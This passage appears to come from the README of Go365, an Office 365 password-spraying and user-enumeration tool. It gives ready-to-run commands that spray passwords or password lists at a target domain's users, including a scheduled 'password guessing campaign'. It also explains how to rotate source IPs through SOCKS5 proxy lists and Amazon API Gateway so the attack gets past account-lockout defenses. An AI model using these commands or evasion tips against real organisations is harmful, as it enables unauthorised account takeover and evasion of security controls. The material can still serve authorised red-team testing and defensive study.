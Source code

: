 ```
    -proxyfile <string>         A file with a list of SOCKS5 proxy servers to use
                                : IP address and Port separated by a ":" on each line
                                : Randomly selects a proxy server to use before each request
                                : (-proxyfile ./proxyfile.txt)

    -url <string>               Endpoint to send requests to
                                : Amazon API Gateway 'Invoke URL'
                                : Highly recommended that you use this option. Google it, or
                                : check this out: https://bigb0sss.github.io/posts/redteam-rotate-ip-aws-gateway/
                                : (-url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login)

    -debug                      Debug mode.
                                : Print xml response
```

### Examples

```
  ./Go365 -endpoint rst -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
  ./Go365 -endpoint rst -up ./userpass_list.txt -delay 3600 -d pwnthisfakedomain.com -w 5 -o Go365output.txt
  ./Go365 -endpoint graph -u legituser -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
  ./Go365 -endpoint rst -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login

  You can even schedule out your entire password guessing campaign using the -pl and -delay flags :)
  ./Go365 -endpoint rst -ul ./user_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login -proxyfile listofprox.txt -pl listofpasswords.txt -delay 7200

  *Protip: If you get a lot of "Account locked out" responses, then you might wanna proxy or use an AWS Gateway.
```

## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out accounts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.
